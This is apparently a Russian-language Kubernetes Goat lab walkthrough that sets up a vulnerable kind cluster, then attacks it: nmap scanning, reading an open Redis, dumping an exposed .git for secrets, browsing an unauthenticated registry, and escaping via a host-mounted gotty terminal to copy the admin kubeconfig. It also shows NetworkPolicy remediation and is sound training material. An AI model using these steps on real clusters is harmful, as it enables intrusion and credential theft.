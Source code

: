 # Устанавливаем стенд

## Ставим kind
https://kind.sigs.k8s.io/docs/user/quick-start/#installation

Чтобы установить k8s-goat адекватно на kind нужно пробросить дополнительный порт для доступа к NodePort - особенность Kind.

Для установки нужно:
```bash
cat << EOF | kind create cluster --config=-
kind: Cluster
apiVersion: kind.x-k8s.io/v1alpha4
nodes:
- role: control-plane
  extraPortMappings:
  - containerPort: 30003
    hostPort: 30003
    protocol: TCP
EOF
```

Далее ждём минуту пока поднимется кластер.

Нужно установить сам goat:
```bash
git clone https://github.com/madhuakula/kubernetes-goat.git
cd kubernetes-goat
bash ./setup-kubernetes-goat.sh
bash ./access-kubernetes-goat.sh
```
Далее ждём перехода всех контейнеров в статус Ready.

# Атакуем кластер
## Сканируем сеть (K07: Missing Network Segmentation Controls, K08: Secrets Management Failures)

Давайте поищем порты редиса 6379:
Для этого:
```bash
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
ip a
nmap -p 6379 10.244.0.0/24 #Сеть может быть другой
```

Мы видим открытый Redis:
Подключаемся и забираем флаг
```bash
redis-cli -h 10.244.0.1
KEYS *
GET SECRETSTUFF
```

Почему так просто? По-умолчанию нет изоляции по сети. За сеть в Kubernetes отвечает CNI. Мы с вами не заметили, но kind сам установил такой плагин - его под:

```bash
kubectl describe pod $(kubectl get pods --no-headers -o custom-columns=":metadata.name" -n kube-system | grep "kindnet") -n kube-system
```

По-умолчанию, kubernetes не изолирует сетевые взаимодействия. И не представляет плагин CNI, на который ложится логика реализации сетевого взаимодействия, в том числе файерволинг.

Для того, чтобы изоляция работала, нужно создать политику. Для этого воспользуемся специальным универсальным API и создадим network policy:

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: goat-nsp
spec:
  podSelector: {}
  ingress:
    - from:
        - podSelector: {}
  egress:
    - to:
        - namespaceSelector: {}
          podSelector:
            matchLabels:
              k8s-app: kube-dns
      ports:
        - port: 53
          protocol: UDP
    - to:
        - podSelector: {}
```

Она разрешит только трафик внутри неймспейса контейнера и DNS трафик в кластере.

Настройка зависит от API, который есть в k8s и в реализации самого CNI, например для CNI Cillium есть некоторые расширенные возможности, например возможность фильтрации по FQDN, возможность реализации L7 политик и создание clusterwide политик, т.к наш пример работает только в namespace default.
А ещё есть прекрамный инструмент https://editor.networkpolicy.io/?id=0PPZfAAjQvVBoLL2 который поможет разобраться с написание политик.

Применим политику и убедимся, что доступа больше нет.
```bash
cat << EOF | kubectl apply -f -
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: goat-nsp
spec:
  podSelector: {}
  ingress:
    - from:
        - podSelector: {}
  egress:
    - to:
        - namespaceSelector: {}
          podSelector:
            matchLabels:
              k8s-app: kube-dns
      ports:
        - port: 53
          protocol: UDP
    - to:
        - podSelector: {}
EOF
```
## Враг внутри (K02: Supply Chain Vulnerabilities)

На самом деле не обязательно идти за пределы неймспейса, чтобы получить информацию. Давайте выполним команду env.
Мы видим вывод в переменную адресов многих сервисов, давайте попробуем зайти на следующий:
```bash
curl http://10.96.140.16:3000
```
Похоже на сайт с кодом.
Не будем погружаться в особенности фазинга сайтов через тотже owasp zap (можете сделать это локально дома), но попробуем найти конфиг репозитория по пути:
```bash
curl  http://10.96.140.16:3000/.git/config
```
Ага. Есть репозиторий, давайте его скачаем
```bash
git clone https://github.com/internetwache/GitTools.git

./GitTools/Dumper/gitdumper.sh http://10.96.140.16:3000/.git/ code-app

trufflehog code-app/
```

Заботливо подготовленный заранее trufflehog нашёл ключ, но можно достичь этого и просто через git log, git show d7c173ad183c574109cd5c4c648ffe551755b576

## Ну поправили это, а что ещё? (K02: Supply Chain Vulnerabilities, CICD-SEC-6/2)

У нас в nmap было не только уязвимое веб приложение был ещё порт 5000. Что там?
```bash
curl http://10.244.0.12:5000/v2/_catalog
```
А там какие-то образы, которые мы получили без аутентификации.
Давайте его изучим?

```bash
curl http://10.244.0.12:5000/v2/madhuakula/k8s-goat-users-repo/manifests/latest
```

grep -i key и мы видим GPG ключ и токен-флаг.

Почему так? По умолчанию в registry v2 не реализована аутентификация. В конфиге можно включить Basic и Token (jwt). Можно реализовать самому, а можно взять Jfrog, Nexus, Gitlab, Harbor.
## Убегаем (K01: Insecure Workload Configurations, K03: Overly Permissive RBAC Configurations)

Давайте посмотрим, что ещё есть интересного.

```bash
curl http://10.244.0.7:8080
```

Вывод говорит нам, что это gotty для которого есть клиент - ставим и подключаемся. Мы в терминале

```bash
apk add go
go get github.com/moul/gotty-client/cmd/gotty-client
go/bin/gotty-client --v2 http://10.244.0.7:8080/
```

Делаем df -h или capsh --print и видим что много подов и маун /host-system. Подключимся к нему.

```bash
chroot /host-system bash

#Если не получится со стандартным кубконфигом
cp /etc/kuberntetes/admin.conf /root/.kube/config
sed -i 's/kind-control-plane:6443/10.96.0.1:443/g' /root/.kube/config
```

Пробуем получить доступ к кластеру Kubernetes:
```bash
kubectl auth whoami
```

Видим, что мы админы. На этом всё.

## Огласите весь список пожалуйста
Раз уж мы получили доступ к админ токену, то почему бы нам не посмотреть список всех уязвимостей в кластере.
Сохраним конфиг админа из /etc/kuberntetes/admin.conf ну или нет, т.к это тот же конфиг, что и у нас на ноде =)
Установим trivy.
```bash
https://trivy.dev/latest/getting-started/installation/
```
И запустим
```bash
trivy k8s --report summary
```
export KUBECONFIG=config
trivy k8s --report summary
```
